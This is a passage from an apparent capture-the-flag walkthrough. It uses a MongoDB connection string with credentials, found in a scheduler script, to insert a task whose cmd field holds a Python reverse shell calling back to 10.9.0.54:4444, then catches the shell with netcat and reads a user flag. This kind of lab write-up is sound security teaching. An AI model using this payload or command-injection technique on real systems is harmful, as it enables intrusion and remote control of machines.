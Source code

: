 ~~~
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});

~~~

The script reveals the structure:

* connection string: `mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler`
* collection: `tasks` (`db.collection('tasks').find()`)
* field: `cmd` (`exec(doc.cmd)`)

Let's connect and insert an entry that will execute a reverse shell (make sure you open a listener on your machine: `rlwrap nc -nlvp 4444`).

~~~
$ mongo "mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler"
MongoDB shell version: 3.2.16
connecting to: mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler
> db.collections
scheduler.collections
> db
scheduler
> show collections
tasks
> db.tasks.insert({"cmd":"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.0.54\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
~~~

In less than 30 seconds, we have a reverse shell, and we are connected as `tom`. Let's get the flag (notice that this flag was not needed for this challenge though, as we were requested to provide mark's password instead).

~~~
$ rlwrap nc -nlvp 4444

tom@node:/$ whoami
tom
tom@node:~$ cat /home/tom/user.txt
e1156acc3574e04b06908ecf76be91b1
~~~

User flag: `e1156acc3574e04b06908ecf76be91b1`

### Reverse engineering

This part is still incomplete and open for discussion.

Searching for files owned by root with the SUID bit set reveals an interesting program:
